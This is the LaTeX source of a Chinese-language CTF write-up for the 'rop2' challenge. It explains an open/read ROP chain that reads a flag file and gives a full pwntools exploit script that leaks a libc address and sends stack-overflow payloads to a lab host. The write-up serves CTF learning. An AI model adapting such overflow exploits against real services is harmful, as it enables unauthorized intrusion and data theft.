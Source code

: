 \documentclass{article}
\begin{document}
\section{rop2}
    与rop1不同的是，此题system函数无法被调用，因此只能采用如下步骤：首先调用open函数打开flag文件，然后调用read函数将内容写到global.buffer里面，最后由程序本身的write函数将flag内容打印出来。\par
    因此，我们首先需要准备open函数和read函数在libc库中的偏移，分别是0x000e68c0，0x000e6e40，查阅得知，open函数的参数如下：char *file\_name, int flags，此处file\_name = 'flag'，flags = 0表示只读。需要在第一次栈溢出时按从左到右的填入参数，最右边的参数地址最高。open函数的返回地址填main函数中的指令地址:0x08048660,如下图：
    \begin{figure}[H]
    	\begin{center}
    		\includegraphics[width=0.9\textwidth]{7.png}
    	\end{center}
    \end{figure}
    回到main函数之后，执行同样的操作，read函数的参数如下: int fd, char *address, int max\_length，第一项fd是open函数的返回值，第一次读取固定为3，第二项填入写入的地址，填入0x0804a082即可，第三项是读入最大长度，flag一般不会大于32字节，故填32。 \par
    再次返回main函数，只需要打印足够的长度即可，start和end分别设为48，1，最终脚本如下：
    \begin{itemize}
    	\item 脚本2
    	\begin{lstlisting}{language=Python}
from pwn import *
io = remote("10.0.0.10", 40008)
io.recvuntil("length:")
io.sendline(b'64')
io.recvuntil("String:")
io.send(b'flag' + b'\x00'+ b'F'*0x37 + b'ABCD')
io.recvuntil("string:")
io.sendline(b"70 1")
io.recvuntil("ABCD")
scanf_addr = u32(io.recv(4))
scanf_addr = scanf_addr * int(0x100)

opens = p32(scanf_addr + int(0x000e68c0) - int(0x00063e00)) 
arg1_open = p32(0x0804a081)
ret_addr = p32(0x08048660)
io.sendline(b'A'*0xd + opens + ret_addr + arg1_open + p32(0))

io.recvuntil("length")
io.sendline(b'1')
io.send(b'A')
io.recvuntil("string:")
io.sendline(b"2 1")
reads = p32(scanf_addr + int(0x000e6e40) - int(0x00063e00)) 
arg2_read = p32(0x0804a082)
io.sendline(b'A'*0xd + reads + ret_addr + p32(3) + arg2_read + p32(32))

io.recvuntil("length")
io.sendline(b'1')
io.recvuntil("String:")
io.send(b'A')
io.recvuntil("string:")
io.sendline(b"48 1")
flag = io.recv(48)
print(f"This is flag : {flag}")
io.sendline(b'Last Time')

io.interactive()
    		
    	\end{lstlisting}
    \end{itemize}
\end{document}
